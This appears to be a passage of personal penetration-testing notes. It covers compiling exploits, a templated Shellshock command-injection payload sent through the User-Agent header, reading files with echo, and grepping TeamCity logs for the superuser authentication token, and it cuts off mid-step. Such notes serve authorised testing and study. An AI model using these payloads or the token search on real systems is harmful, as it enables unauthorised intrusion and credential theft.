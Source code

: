 ---------------------------

### Compiling exploit error: no cc1 in directory

![image](https://github.com/user-attachments/assets/c6adac8b-c767-4656-a1b1-3b7f9f1eb75a)

- It happens if `/usr/bin` is not added to the PATH environmental variable

  ![image](https://github.com/user-attachments/assets/17b40813-87eb-48e9-9cc7-f27f871a0125)

- Add it to the path with

      export PATH=/usr/bin:$PATH

![image](https://github.com/user-attachments/assets/60592489-d0dd-41a7-a944-022247589547)

--------------------------

### Exploiting Shellshock

- Inject payload in `User-Agent` header

      curl -i -H "User-agent: () { :;}; echo; [command]" [host]/[cgi_script]

- The binary path should be detailed to execute shell commands e.g `/bin/ls` or `/bin/cat`

![image](https://github.com/user-attachments/assets/7542f360-aeb5-4355-a2ea-cc30d3644928)


--------------------

### REFERENCES:

- [Shellshock in cgi scripts](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

--------------------

### READING FILES WITH ECHO

- Use

      echo "$(<[filename])"

---------------------

### PENTESTING TEAM CITY

- Grep for super token with ` grep -rni 'authentication token' TeamCity/logs 2</dev/null`

![image](https://github.com/user-attachments/assets/861f4f8e-43de-4b16-8ea2-92ffa727aaa3)

### Exploit with this steps

- Create a new project, pick "manually"
